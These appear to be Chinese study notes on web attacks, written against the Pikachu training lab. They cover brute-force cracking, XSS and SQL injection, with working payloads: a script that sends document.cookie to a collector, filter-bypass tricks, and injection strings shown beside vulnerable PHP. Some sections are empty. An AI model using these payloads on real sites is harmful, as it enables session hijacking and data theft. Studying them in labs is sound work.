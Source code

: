 <!-- TOC -->

- [Web安全](#web%E5%AE%89%E5%85%A8)
    - [暴力破解漏洞](#%E6%9A%B4%E5%8A%9B%E7%A0%B4%E8%A7%A3%E6%BC%8F%E6%B4%9E)
        - [有效的字典](#%E6%9C%89%E6%95%88%E7%9A%84%E5%AD%97%E5%85%B8)
        - [漏洞测试流程](#%E6%BC%8F%E6%B4%9E%E6%B5%8B%E8%AF%95%E6%B5%81%E7%A8%8B)
        - [验证码](#%E9%AA%8C%E8%AF%81%E7%A0%81)
        - [防范措施](#%E9%98%B2%E8%8C%83%E6%8E%AA%E6%96%BD)
    - [跨站脚本漏洞 - XSS](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E---xss)
        - [跨站脚本漏洞概述](#%E8%B7%A8%E7%AB%99%E8%84%9A%E6%9C%AC%E6%BC%8F%E6%B4%9E%E6%A6%82%E8%BF%B0)
        - [反射型XSSget](#%E5%8F%8D%E5%B0%84%E5%9E%8Bxssget)
        - [存储型XSS](#%E5%AD%98%E5%82%A8%E5%9E%8Bxss)
        - [DOM型XSS](#dom%E5%9E%8Bxss)
        - [案例1：GET型XSS获取cookie](#%E6%A1%88%E4%BE%8B1get%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例2：POST型XSS获取cookie](#%E6%A1%88%E4%BE%8B2post%E5%9E%8Bxss%E8%8E%B7%E5%8F%96cookie)
        - [案例3：XSS钓鱼 - basic认证](#%E6%A1%88%E4%BE%8B3xss%E9%92%93%E9%B1%BC---basic%E8%AE%A4%E8%AF%81)
        - [案例4：XSS键盘记录](#%E6%A1%88%E4%BE%8B4xss%E9%94%AE%E7%9B%98%E8%AE%B0%E5%BD%95)
        - [XSS盲打](#xss%E7%9B%B2%E6%89%93)
        - [XSS绕过-过滤-转换](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E8%BD%AC%E6%8D%A2)
        - [XSS绕过-过滤-编码](#xss%E7%BB%95%E8%BF%87-%E8%BF%87%E6%BB%A4-%E7%BC%96%E7%A0%81)
        - [XSS绕过-htmlspecialchars使用](#xss%E7%BB%95%E8%BF%87-htmlspecialchars%E4%BD%BF%E7%94%A8)
        - [XSS实战练习](#xss%E5%AE%9E%E6%88%98%E7%BB%83%E4%B9%A0)
    - [SQL注入](#sql%E6%B3%A8%E5%85%A5)
        - [数字型注入](#%E6%95%B0%E5%AD%97%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [字符型注入](#%E5%AD%97%E7%AC%A6%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [搜索型注入](#%E6%90%9C%E7%B4%A2%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [xx型注入](#xx%E5%9E%8B%E6%B3%A8%E5%85%A5)
        - [案例1-基于union的信息获取](#%E6%A1%88%E4%BE%8B1-%E5%9F%BA%E4%BA%8Eunion%E7%9A%84%E4%BF%A1%E6%81%AF%E8%8E%B7%E5%8F%96)
        - [mysql相关知识](#mysql%E7%9B%B8%E5%85%B3%E7%9F%A5%E8%AF%86)
    - [相关链接](#%E7%9B%B8%E5%85%B3%E9%93%BE%E6%8E%A5)

<!-- /TOC -->
# Web安全


## 暴力破解漏洞

暴力破解 = 连续性尝试 + 字典+ 自动化

### 有效的字典

- 弱口令
- 社工库，已收集的账号密码，比如脱裤收集的，可以撞库
- 使用指定字符利用工具按照规则生成密码
- 常用账户密码，如admin/root
- 遵循注册时的密码要求

### 漏洞测试流程

- 确认暴力破解的可能性，如抓包
- 优化字典，如密码限定字符、长度
- 配置自动化工具，如超时时间、重试次数
- [常见字典](https://github.com/danielmiessler/SecLists)
- 注意事项：字典导入时不能有中文路径

### 验证码

- 作用
    - 登陆暴力破解
    - 防止机器恶意注册
- 认证流程
    - 登陆页面，后台生成验证码，同时使用算法生成图片，并将图片response给客户端，同时将算法生成的值全局赋值存到 SESSION中
    - 校验验证码，客户端将认证信息和验证码一同提交，后台对提交的验证码与 SESSION里面的验证码进行比较
    - 客户端重新刷新页面，再次生成新的验证码，验证码算法中一般包含随机函数，所以每次刷新都会改变
- 不安全验证码 - 客户端
    - 使用前端js实现验证码(纸老虎)
    - 验证码在cookie容易泄露，可被获取
    - 将验证码在前端源代码中泄露，容易被获取
- 不安全验证码 - 服务端
    - 验证码在后台不过期，导致可以长期被使用
    - 验证码校验不严格，逻辑出现问题
    - 验证码设计的太过简单或者有规律，容易被猜解
    - session？

### 防范措施

- 设计安全的验证码（安全的流程 + 复杂而又可用的图形）
- 对认证错误的提交进行计数并给出限制，比如连续5次密码错误，锁定2小时
- 必要的情况下，使用双因素认证
- token对防止暴力破解没有用



## 跨站脚本漏洞 - XSS

### 跨站脚本漏洞概述

- XSS漏洞一直被评估为web漏洞中危害较大的漏洞，在 OWASP TOP10的排名前三
- XSS是一种发生在Web前端的漏洞，所以其危害的对象也主要是前端用户
- XSS漏洞可以用来进行钓鱼攻击、前端js挖矿、用户 cookie 获取。甚至可以结合浏览自身的漏洞对用户主机进行远程控制
- 常见类型
  - 反射型，交互的数据一般不会被存在在数据库里面，一次性，一般岀现在查询类页面等
  - 存储型，存储在数据库里面，永久性，一般岀现在留言板，注册等页面
  - DOM型，不与后台服务器产生数据交互，是一种通过DOM操作前端代码输出的时候产生的问题，一次性，也属于反射型
漏洞形成原因：主要原因是程序对输入和输出的控制不够严格，导致“精心构造”的脚本输入后，在输到前端时被浏览器当作有效代码解析执行从而产生危害
- 测试流程
  - 在目标站点上找到输入点，比如查询接口，留言板等
  - 输入一组“特殊字符 + 唯一识别字符”，点击提交后，查看返回的源码，是否有做对应的处理
  - 通过搜索定位到唯一字符，结合唯一字符前后语法确认是否可以构造执行js的条件（构造闭合）
  - 提交构造的脚本代码（以及各种绕过姿势），看是否可以成功执行，如果成功执行则说明存在XS漏洞
- TIPS
  - 一般查询接口容易出现反射型XSS，留言板容易岀现存储型XSS
  - 由于后台可能存在过滤措施，构造的script可能会被过滤掉，而无法生效，或者环境限制了执行(浏览器)
  - 通过变化不同的script，尝试绕过后台过滤机制

### 反射型XSS(get)

该测试中，前台未进行输入限制，后台未进行输入转义，导致js脚本正常执行，构成反射性XSS

```html
<p class='notice'>who is <script>alert('xss')</script>,i don't care!</p> 
```
对于get型XSS，payload直接放在url中

```html
http://192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=%3Cscript%3Ealert%28%27xss%27%29%3C%2Fscript%3E&submit=submit
```

- GET方式的XSS漏洞更加容易被利用，一般利用的方式是将带有跨站脚本的url伪装后发送给目标，而POST方式由于是以表单方式提交，无法直接使用URL方式进行攻击
- GET和POST典型区别：GET是以url方式提交数据，POST是以表单方式在请求体里面提交

### 存储型XSS

存储型XSS漏洞跟反射型形成的原因一样，不同的是存储型XSS下攻击者可以将脚本注入到后台存储起来，构成更加持久的危害，因此存储型XSS也称“永久型”XSS。

```html
<p class='con'><script>alert('xss')</script></p>
```

```html
http://192.168.43.65/pikachu/vul/xss/xss_stored.php
```

### DOM型XSS

[DOM举例](https://www.w3school.com.cn/tiy/t.asp?f=hdom_document_getbyid)

```html
源码：<a href='"+str+"'>what do you see?</a>
payload：#' onclick="alert('xss')"/>
闭合：<a href='#' onclick="alert('xss')"/>'>what do you see?</a>
```

### 案例1：GET型XSS获取cookie

```html
# 注意pkxss的路径
<script>document.location = 'http://192.168.43.65/pikachu/pkxss/xcookie/cookie.php?cookie=' + document.cookie;</script>
```

```html
192.168.43.65/pikachu/vul/xss/xss_reflected_get.php?message=<script>document.location+%3D+'http%3A%2F%2F192.168.43.65%2Fpikachu%2Fpkxss%2Fxcookie%2Fcookie.php%3Fcookie%3D'+%2B+document.cookie%3B<%2Fscript>&submit=submit
```

[什么是cookie？](https://www.jianshu.com/p/6fc9cea6daa2)

### 案例2：POST型XSS获取cookie

### 案例3：XSS钓鱼 - basic认证

### 案例4：XSS键盘记录

**什么是跨域？**

| http:// | www.   | xyz.com: | 8080 | /script/test.js |
| ------- | ------ | -------- | ---- | --------------- |
| 协议    | 子域名 | 主域名   | 端口 | 资源地址        |

当协议、主机（主域名,子域名）、端口中的任意一个不相同时，称为不同域。我们把不同的域之间请求数据的操作，称为跨域操作。

**跨域-同源策略**
- 为了安全考虑，所有的浏览器都约定了“同源策略”,，同源策略规定，两个不同域名之间不能使用JS进行相互操- 作。
- 比如: x.com域名下的javascript并不能操作y.com域下的对象。
- 如果想要跨域操作,则需要管理员进行特殊的配置。

### XSS盲打

用户提交信息，推测后台管理员会看，输出在管理员看到的页面。获取管理员cookie，冒充管理员在后台为所欲为。

### XSS绕过-过滤-转换

1. 前端限制绕过,直接抓包重放,或者修改html前端代码
2. 大小写,比如:<SCriPt>
3. 拼凑:<scr<script>ipt> 
4. 使用注释进行干扰:<scri<!--test-->pt>

### XSS绕过-过滤-编码

核心思路：后台过滤了特殊字符,比如<script>标签,但该标签可以被各种编码,后台不一定会过滤,当浏览器对该编码进行识别时,会翻译成正常的标签，从而执行.
注意：在使用编码时需要注意编码在输出点是否会被正常识别和翻译.
```html
<!--例如-->
<img src=x onerror=”alert('xss')" />可以把alert("xss")进行html编码
<img src=x onerror "&#97;&# 108;&# 101;&# 114;&# 116;&#40;&#39;&# 120;&# 115;&# 115;&#39;&#41;
```


### XSS绕过-htmlspecialchars()使用

### XSS实战练习

xss-lab，放在xmapp的htdocs文件夹中，打开apache，访问即可。


## SQL注入
在owasp发布的top10排行榜里，注入漏洞一直是危害排名第一的漏洞，其中注入漏洞里面首当其冲的就是数据库注入漏洞。

### 数字型注入
```php
//后台源码
if(isset($_POST['submit']) && $_POST['id']!=null){
    //这里没有做任何处理，直接拼到select里面去了,形成Sql注入
    $id=$_POST['id'];
    $query="select username,email from member where id=$id";
    $result=execute($link, $query);
    //这里如果用==1,会严格一点
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $username=$data['username'];
            $email=$data['email'];
            $html.="<p class='notice'>hello,{$username} <br />your email is: {$email}</p>";
        }
    }else{
        $html.="<p class='notice'>您输入的user id不存在，请重新输入！</p>";
    }
}
```
```sql
--正常查询出一条记录
select eamil where user_id = 1 --or 1=1; 
--注入，查询所有记录
select eamil where user_id = 1 or 1 = 1；
```

### 字符型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username='$name'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}
```
```sql
--正常情况
select email from user where username = 'kobe';-- kobe' or 1=1#
--在url中构造闭合，注入
select email from user where username = 'kobe' or 1=1#'
```

### 搜索型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){

    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];

    //这里的变量是模糊匹配，需要考虑闭合
    $query="select username,id,email from member where username like '%$name%'";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        //彩蛋:这里还有个xss
        $html2.="<p class='notice'>用户名中含有{$_GET['name']}的结果如下：<br />";
        while($data=mysqli_fetch_assoc($result)){
            $uname=$data['username'];
            $id=$data['id'];
            $email=$data['email'];
            $html1.="<p class='notice'>username：{$uname}<br />uid:{$id} <br />email is: {$email}</p>";
        }
    }else{

        $html1.="<p class='notice'>0o。..没有搜索到你输入的信息！</p>";
    }
}
```

```sql
--正常情况
select email from user where username like '%k%'; --k%' or 1=1#
--构造闭合，注入
select email from user where username like '%k%' or 1=1#%';

```

### xx型注入
```php
//后台源码
if(isset($_GET['submit']) && $_GET['name']!=null){
    //这里没有做任何处理，直接拼到select里面去了
    $name=$_GET['name'];
    //这里的变量是字符型，需要考虑闭合
    $query="select id,email from member where username=('$name')";
    $result=execute($link, $query);
    if(mysqli_num_rows($result)>=1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
    }else{

        $html.="<p class='notice'>您输入的username不存在，请重新输入！</p>";
    }
}

```

```sql
--正常情况
select email from user where username = kobe;
--构造闭合，注入
select email from user where username = 'kobe') or 1=1#;
```

```sql
--通过一个输入，查看返回结果，并判断输入是否参与后台的sql语句中
---如果1正常输出，2不能正常输出，说明拼接成功，存在sql漏洞
kobe' and 1=1#;
kobe' and 1=2#;

--单个字符的测试，如'或者"，欺骗后天数据库报错
```
总结：闭合测试，构造sql，欺骗后台执行

>小知识：MySQ有三种注释，``#`` ``--`` ``/**/``

### 案例1-基于union的信息获取
```sql
--union用法，前后字段数一致
select email from user where id = 1 union select 字段1 from 表名 where 条件;

select 



```
### mysql相关知识
```sql
select database();--获取当前数据库名称
select user();--当前用户权限
select version();--当前数据库版本

--查询表中有几个字段
---使用第一列进行排序，如果第一列存在，则可以正常输出，否则错误
select id from user where username = 'kobe' order by 1;

```

mysql自带一个数据库information_schema，这个表非常重要，里面有很多信息。


## 相关链接
[视频教程](https://www.ichunqiu.com/course/63838)[|靶场](https://github.com/zhuifengshaonianhanlu/pikachu)